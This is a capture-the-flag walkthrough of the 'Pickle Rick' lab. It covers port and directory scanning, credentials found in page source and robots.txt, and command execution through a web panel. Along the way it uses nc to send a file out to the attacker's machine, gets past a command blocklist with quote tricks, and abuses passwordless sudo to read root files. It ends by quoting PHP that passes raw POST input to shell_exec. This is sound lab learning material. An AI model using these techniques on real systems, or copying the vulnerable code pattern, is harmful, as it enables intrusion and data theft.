




# Pickle Rick

- [Pickle Rick](#pickle-rick)
- [HTML Source Code](#html-source-code)
  - [robots.txt](#robotstxt)
- [NMAP](#nmap)
  - [NMAP Results](#nmap-results)
- [Directory and page scanning with ffuf](#directory-and-page-scanning-with-ffuf)
  - [clue.txt](#cluetxt)
- [Login](#login)
- [Command execution](#command-execution)
- [First ingredient](#first-ingredient)
- [Second ingredient](#second-ingredient)
  - [Bypassing command filter](#bypassing-command-filter)
- [Third ingredient](#third-ingredient)
- [Analysis](#analysis)

In the instruction of this lab it says that we simply can go to `https://<LAB IP>.p.thmlabs.com/`. No need to NMAP here.


We see a nice page and it seems Rick forgot his password (and turned himself into a pickle again. We have to look for some ingredients which we have to fill in in the answer fields (3x). But first let's look for the password.




# HTML Source Code
Since we only have this page we can check the headers and url of the page to look for information. One simple thing to do is to check the HTML source.
Here we find an HTML note:

```html
...
</div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

Here is the username we have to remember.

### robots.txt
Maybe here's something:
```html
Wubbalubbadubdub
```
Hmmm...not sure what this is. Maybe a password. Let's take note of it

# NMAP
After looking for information in with the tools in the browser I decided I might use NMAP and some other tools. So first start scanning all ports and
save the results (for our pentest report)
```sh
┌──(kali㉿kali)-[~/…/THM/Pickle Rick/recon/nmap]
└─$ nmap 10.10.141.252 -p- -oA allports
```
## NMAP Results
```sh
Nmap scan report for 10.10.141.252
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports. Since this is a small CTF challenge I leave the scanning here..maybe I have to come back later on.

## Directory and page scanning with ffuf
So check for directories and pages.
--of = Format of the output, I like HTML so I can have a nice overview
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.141.252/FUZZ -of html -o dirs80.html     -e .txt,.php,.html -v
```

I the results it gives me the `/portal.php` which redirects to `/login.php`. 

Since we only have a username we have to look for the password. But first try username = password. You never know....
Okay now we know that that wasn't the case.



### clue.txt
Since ffuf was still running I noticed a `/clue.txt` file. Let's check it out:
```html
Look around the file system for the other ingredient.
```
This is the only thing found. Since we do not have access to a file system we have to park this clue.

## Login
Wait... maybe we can try the gibberish of the robotx.txt


Bingo!! We can login with the username R1ckRul3s and the password Wubbalubbadubdub from the robots.txt file

## Command executution



When logged in we finde the command panel. We need to unpickle Rick ASAP. We're looking for ingredients.
```
ls
```
Result
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Here we have te first ingredient:
`Sup3rS3cretPickl3Ingred.txt`

```
cat Sup3rS3cretPickl3Ingred.txt
```

Oops the command is disabled.



# First ingredient
Since we can read robots.txt in the browser we have a good change that we can do the same with Sup3rS3cretPickl3Ingred.txt. 
Go to `https://<LAB IP>.p.thmlabs.com/Sup3rS3cretPickl3Ingred.txt` to read the file.

After looking around in the file system de file for the second ingredient is found at location `/home/rick/second ingredients`

# Second ingredient
How can we read this since it is outside of the webroot. I decided to start a listener on my local kali vm and transfer the file via nc:
### On local kali vm:
```sh
nc -lvnp 4444 > secondingredient
```
In the command panel in the browser:
```
nc <KALI IP> 4444 < /home/rick/second\ ingredients
```
Now we can read the file on the kali machine.

## Bypassing command filter
It doesn't seem that that the cat command is disabled on the machine but is blocked by teh webapp. We can still execute the `cat` command by adding single quotes between the characters `'`:
```
c'a't /home/rick/second\ ingredients
```

# Third ingredient
After searching the file system I could not find anything useful. But `sudo -l` worked. 
```
User www-data may run the following commands on ip-10-10-193-131.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can execute all command as a superuser whithout a need for a password
```
sudo ls -al /root

```
```
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 May 21 06:49 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

We can do the same trick with transfering the data via nc.
Here we have the last ingredient

# Analysis
In the source code we could see why we could not use the cat command.
The code gives us an array which contains the forbidden commands `"cat", "head", "more", "tail", "nano", "vim", "vi"`. Then it [checks](https://www.php.net/manual/en/function.isset.php) is the `command` variable is not null in the (POST data)[https://www.php.net/manual/en/reserved.variables.post].

If the value of the command parameter contains a value in the cmds array it will echo the warning `Command Disabled...` 

If it it does not contain a forbidden command it will execute the given command in a shell on the server and returns the results.
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
        } else {
          $output = shell_exec($_POST["command"]);
          echo "</br><pre>$output</pre>";
        }
      }
```
